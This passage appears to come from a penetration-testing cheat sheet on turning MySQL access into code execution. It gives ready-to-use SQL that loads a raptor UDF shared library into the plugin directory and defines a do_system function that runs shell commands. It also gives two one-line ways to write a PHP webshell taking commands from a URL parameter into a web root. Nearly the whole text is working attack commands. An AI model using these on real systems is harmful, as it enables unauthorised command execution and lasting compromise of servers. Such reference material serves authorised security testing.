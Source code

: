 
The so file then needs to be transferred to the target host.

Note: This section contains SQL commands to be run on the target.
{: .notice--info}

### Staging UDF

| Function | Command | Ref. |
|---|---|---|
| Create a table to store UDF | `CREATE TABLE foo(line blob);`{:.language-sql .highlight} |
| Load UDF into table | `INSERT INTO foo VALUES(LOAD_FILE('^^path to udf^^'));`{:.language-sql .highlight}<br>eg. `INSERT INTO foo VALUES(LOAD_FILE('/tmp/raptor2_udf.so'));`{:.language-sql .highlight} |
| Check plugin directory | `SELECT @@plugin_dir;`{:.language-sql .highlight}|
| Dump UDF into plugin directory | `SELECT * FROM foo INTO DUMPFILE '^^plugindir/so name^^';`{:.language-sql .highlight}<br>eg. `SELECT * FROM foo INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';`{:.language-sql .highlight} |
|===|===|===|


### Executing Code

| Function | Command | Ref. |
|---|---|---|
| Load function | `CREATE FUNCTION do_system RETURNS INTEGER SONAME '^^so name^^';`{:.language-sql .highlight}<br>eg. `CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor2_udf.so';`{:.language-sql .highlight}|
| Code Execution | `SELECT do_system('^^shell command^^');`{:.language-sql .highlight}<br>eg. `SELECT do_system('id');`{:.language-sql .highlight} |
|===|===|===|


## Webshell

If the target system is running a webserver, it may be possible to use MySQL to create a webshell file in a directory being served by the webserver.

| Function | Command | Ref. |
|---|---|---|
| Create shell file | `SELECT  "<?php system($_GET['cmd']); ?>" INTO DUMPFILE "^^destination path^^";`{:.language-sql .highlight}<br>eg. `SELECT  "<?php system($_GET['cmd']); ?>" INTO DUMPFILE "/var/www/html/shell.php";`{:.language-sql .highlight} | |
| Create shell file (alt.) | `SELECT 1 LIMIT 1 INTO OUTFILE "^^destination path^^" LINES TERMINATED BY "<?php system($_GET['cmd']); ?>";`{:.language-sql .highlight}<br>eg. `SELECT 1 LIMIT 1 INTO OUTFILE "/var/www/html/shell.php" LINES TERMINATED BY "<?php system($_GET['cmd']); ?>";`{:.language-sql .highlight} | |
|===|===|===|
